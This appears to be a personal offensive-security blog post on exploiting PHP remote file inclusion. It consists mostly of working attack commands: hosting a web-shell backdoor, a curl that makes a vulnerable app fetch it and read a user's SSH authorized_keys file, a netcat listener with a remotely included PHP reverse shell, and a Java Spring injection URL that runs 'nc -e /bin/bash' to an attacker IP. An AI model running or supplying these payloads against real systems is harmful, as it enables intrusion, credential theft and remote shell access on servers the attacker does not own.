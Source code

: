 ```yaml
---
layout: post
title: Remote File Inclusion - PHP Web Shells
titledate: 08/30/23
tags: ["infosec","offsec", "web", "rfi", "exploit", "php", "shell", "http"]
---
```


for RFI vulns just like the php data:// wrapper the allow_url_include option must be enabled in teh php web application

rfi vulns allow us to include files over http or smb 

<h3>/usr/share/webshells</h3>

there are plenty of good shells out there that can also be included from online hosted repos

in this example, we will host a webshell on our own web server that creates a backdoor, as state above, we could point to one that is hosted online

    $ /usr/share/webshells/php/python3 -m http.server 80

now we can point to the hosted webshell to execute our command

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/simple-backdoor.php&cmd=cat%20/home/don/.ssh/authorized_keys"

and we can utilise the same functionality to establish a reverse shell by utilizing a reverse shell php script

    $ /usr/share/webshells/php/python3 -m http.server 80

start the web server hosting our script

    $ nc -nlvp 443

    $ curl "http://vulnapp.com/home/index.php?page=http://192.168.1.1/php-reverse-shell.php" 

#### java spring vuln

    http://booger.com:8080/search?query=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27busybox%20nc%20192.168.10.210%204444%20-e%20/bin/bash%27)%7D

